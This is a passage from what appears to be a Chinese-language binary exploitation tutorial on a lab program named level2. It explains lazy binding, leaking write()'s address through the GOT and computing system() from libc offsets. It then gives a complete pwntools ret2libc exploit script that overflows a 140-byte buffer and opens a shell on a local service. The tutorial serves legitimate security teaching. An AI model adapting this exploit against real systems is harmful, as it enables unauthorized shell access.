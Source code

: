 我们发现除了程序本身的实现的函数之外，我们还可以使用`read@plt()`和`write@plt()`函数。但因为程序本身并没有调用`system()`函数，所以我们并不能直接调用`system()`来获取`shell`。但其实我们有`write@plt()`函数就够了，因为我们可以通过`write@plt ()`函数把`write()`函数在内存中的地址也就是`write.got`给打印出来。既然write()函数实现是在`libc.so`当中，那我们调用的`write@plt()`函数为什么也能实现write()功能呢? 这是因为linux采用了`延时绑定`技术，当我们调用`write@plit()`的时候，系统会将真正的write()函数地址`link`到got表的`write.got`中，然后write@plit()会根据write.got 跳转到`真正的write()函数`上去。（如果还是搞不清楚的话，推荐阅读《程序员的自我修养 - 链接、装载与库》这本书）

因为`system()`函数和`write()`在`libc.so`中的`offset(相对地址)`是不变的，所以如果我们得到了write()的地址并且拥有目标服务器上的libc.so就可以`计算出system()`在内存中的`地址`了。然后我们再将pc指针`return`回vulnerable_function()函数，就可以进行`ret2libc溢出攻击`，并且这一次我们知道了system()在内存中的地址，就可以调用system()函数来获取我们的shell了。

使用`ldd`命令可以查看目标程序调用的so库。随后我们把`libc.so`拷贝到当前目录，因为我们的exp需要这个so文件来计算相对地址：

``` bash
$ ldd level2
	linux-gate.so.1 =>  (0xf7f84000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xf7daf000)
	/lib/ld-linux.so.2 (0xf7f86000)
$ cp /lib/i386-linux-gnu/libc.so.6 .
```

最后exp如下：

``` python
#!/usr/bin/env python
from pwn import *

libc = ELF('libc.so')
elf = ELF('level2')

#p = process('./level2')
p = remote('127.0.0.1', 10003)

plt_write = elf.symbols['write']
print 'plt_write= ' + hex(plt_write)
got_write = elf.got['write']
print 'got_write= ' + hex(got_write)
vulfun_addr = 0x08048471
print 'vulfun= ' + hex(vulfun_addr)

payload1 = 'a'*140 + p32(plt_write) + p32(vulfun_addr) + p32(1) +p32(got_write) + p32(4)

print "\n###sending payload1 ...###"
p.send(payload1)

print "\n###receving write() addr...###"
write_addr = u32(p.recv(4))
print 'write_addr=' + hex(write_addr)

print "\n###calculating system() addr and \"/bin/sh\" addr...###"
system_addr = write_addr - (libc.symbols['write'] - libc.symbols['system'])
print 'system_addr= ' + hex(system_addr)
binsh_addr = write_addr - (libc.symbols['write'] - next(libc.search('/bin/sh')))
print 'binsh_addr= ' + hex(binsh_addr)

payload2 = 'a'*140  + p32(system_addr) + p32(vulfun_addr) + p32(binsh_addr)

print "\n###sending payload2 ...###"
p.send(payload2)

p.interactive()
```
